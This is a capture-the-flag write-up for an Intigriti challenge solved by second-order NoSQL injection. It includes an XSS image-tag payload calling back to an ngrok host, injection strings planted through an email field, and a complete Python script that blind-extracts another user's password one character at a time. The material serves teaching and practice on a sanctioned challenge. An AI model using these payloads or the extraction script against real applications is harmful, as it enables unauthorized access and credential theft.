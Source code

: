 ```yaml
---
Challenge Name: [intigriti](https://twitter.com/intigriti) January challenge  
By [Samokosik](https://twitter.com/samk0o0) and [mrkcdl](https://twitter.com/mrkcdl)
Category: (No)SQL Injection
Link: https://challenge-0123.intigriti.io
---
```


## Challenge Description
>Hey there! I'm JacquesPhil and I bet I have more friends than you do! That's why I wrote this tool to prove it!

>Just input my name and be baffled by the amount of friends I have! I bet your name isn't even in here! That's because me and my friends are just way more noteworthy than you!

>One of my friends even works for Intigriti, and his password is the flag. But I'm not even worried. Somebody with less friends than me would never be able to hack this website!

>I also rollback the database every 15 minutes, that way I always have the most friends!

## Solution
Set username and password to XSS payload and get a callback to ngrok!
```html
<img src='http://078f-81-103-153-174.ngrok.io'>
```

No viable path, since no user will know to search for that string, let alone the target account (victim/admin/bot) 😆

Created user called `test` and then changed the email to `a%40a.com"` and get a 500 error when searching for `test`. Change it back to `a%40a.com` and the search function works again. 

Let's try a NoSQL injection payload `" || "1"=="1` which evaluates to `true`.
```txt
a%40a.com"+||+"1"%3d%3d"1
```

Search for `test` and it returns a user, probably the one we are looking for.
```json
{"username": "FrankSnys", "friends": 50}
```

Confirm by changing email to a condition that evaluates `false`.
```txt
a%40a.com"+||+"1"%3d%3d"2
```

Search for `test` and it returns `null`, therefore our injection is working! Now we need to extract the password for `FrankSnys` somehow 🤔

Created a solve script which loops through each char in user's passwords, checking against each printable character. Doing so also listed the available users and it turns out `PinkDraconian` was the target, as his password was `INTIGRITI{Y0uD1d1T}`

## Solve Script
Here's one to dump the flag from the target user 😎
```python
import requests
import string

url = 'https://challenge-0123.intigriti.io/'
username = 'cat'
password = 'crypto'
flag = 'INTIGRITI{'

# Create a session
session = requests.Session()

# Register user
response = session.post(url + 'login.html', data={'username': username, 'password': password})

while True:
    new_char = False
    for char in string.printable:

        # Update email (including our NoSQL payload)
        response = session.post(
            url + 'editor.html',
            data={
                'email': 'crypt@cat.hax"||this.username=="PinkDraconian"&&this.password[' + str(len(flag)) + ']=="' + char})

        # Perform search
        response = session.get(url + '/api/friends?q=' + username)

        # 'null' means char incorrect
        if response.status_code == 200 and response.text != 'null':
            new_char = True
            flag += char
            print('char: ' + char)
            break

    # End of the loop and no new char? Must have the flag!
    if not new_char or (new_char and char == '}'):
        break

# Print the flag :)
print('flag: ' + flag)
```

Could improve on the script using a binary search, e.g. [Blind SQLi binary search](https://github.com/Crypto-Cat/CTF/blob/main/web/DVWA/8-sqli.py) but I cba 😸 Here's an [awesome solution]( https://blog.huli.tw/2023/01/23/en/intigriti-0123-second-order-injection) using a ternary search to achieve the same goal with 185 requests, instead of ~600 🔥

## Resources
- [NullSweep: NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet)
- [HackTricks: Second Order SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap)
- [PayloadsAllTheThings: NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)